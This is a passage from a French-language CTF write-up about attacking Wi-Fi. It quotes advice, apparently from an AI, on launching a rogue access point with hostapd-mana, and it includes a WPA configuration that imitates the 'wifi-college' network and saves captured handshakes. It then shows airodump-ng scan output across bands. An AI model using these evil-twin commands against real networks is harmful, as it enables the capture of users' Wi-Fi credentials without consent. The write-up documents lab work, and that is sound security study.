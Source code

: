 2. Lancez le point d'accès malveillant :
   
   ```bash
   sudo hostapd-mana -i wlan1 /tmp/mana.conf
   ```

3. Si vous avez besoin que l'AP émule un réseau WPA/WPA2, modifiez le fichier de configuration comme ceci :
   
   ```
   interface=wlan1
   ssid=wifi-college
   hw_mode=g
   channel=1
   bssid=12:34:56:78:90:AB
   wpa=2
   wpa_passphrase=password123
   wpa_key_mgmt=WPA-PSK
   wpa_pairwise=TKIP CCMP
   rsn_pairwise=CCMP
   mana_wpaout=/tmp/wifi-college.hcapx
   ```

Cette approche pourrait permettre aux clients qui cherchent "wifi-college" de se connecter à votre point d'accès malveillant, et potentiellement capturer leurs informations d'authentification.

Alternativement, vous pourriez avoir besoin de scanner plus longtemps ou sur différents canaux pour détecter des réseaux cachés qui pourraient faire partie du CTF.

------------------------------

J'aurais dû m'attarder plus longuement sur cette dernière phrase. En effet, à ce stade j'avais bien un AP nommé `wifi-college` mais les clients restaient en `not associated`.

J'ai galéré un moment avant d'utiliser l'option `--band` :

```console
$ sudo airodump-ng --band abg wlan0mon
  CH 118 ][ Elapsed: 54 s ][ 2025-05-13 12:35 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 F0:9F:C2:71:22:15  -28       20        0    0  44   54e  WPA2 CCMP   MGT  wifi-college                                                                                                                          
 F0:9F:C2:71:22:17  -28       20        0    0  40   54e  WPA2 CCMP   MGT  wifi-college                                                                                                                          
 F0:9F:C2:71:22:16  -28       20        0    0  36   54e  WPA2 CCMP   MGT  wifi-college                                                                                                                          

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   64:32:A8:07:6C:41  -29    0 - 6      0        4         wifi-college
```
